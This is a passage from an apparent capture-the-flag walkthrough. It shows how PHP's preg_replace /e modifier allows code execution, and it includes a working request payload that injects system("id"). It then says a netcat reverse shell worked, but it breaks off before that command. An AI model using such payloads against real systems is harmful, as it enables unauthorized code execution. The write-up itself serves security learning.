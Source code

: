 

It takes three parameters, `pattern`, `ipaddress`, and `text`. `pattern`
has the value `/ip_address/`, which looks like a regex.

#### preg_replace

The PHP function to do a regex replace is `preg_replace`. [This
function](https://www.php.net/manual/en/function.preg-replace.php) takes
a pattern of the form `/[regex]/[optional modifier]`, which matches what
I'm seeing in the request above. The dangerous part is the
[modifiers](https://www.php.net/manual/en/reference.pcre.pattern.modifiers.php),
specifically `/e` or `PREG_REPLACE_EVAL`, which allows for the
replacement to be evaled (executed) by PHP before it is replaced.

I'll send this request over to Repeater, and modify it to
`pattern=%2Fx%2Fe&ipaddress=system("id")&text=x`. This will likely call
`preg_replace(/x/e, system("id"), x)`, which will return the output of
the `id` command. On sending, the results are at the top of the page:

![](/img/image-20210122083136220.png)

The command output is also captured in place where the output is:

![](/img/image-20210122083213463.png)

`system` puts the output out immediately on running, but `preg_replace`
is smart enough to capture that and make the substitution later anyway.

### Shell

To turn this into a shell, I just need to pass in a reverse shell into
the execution. The first few I tried connected back and then just died
immediately. But the netcat fifo reverse shell worked great:
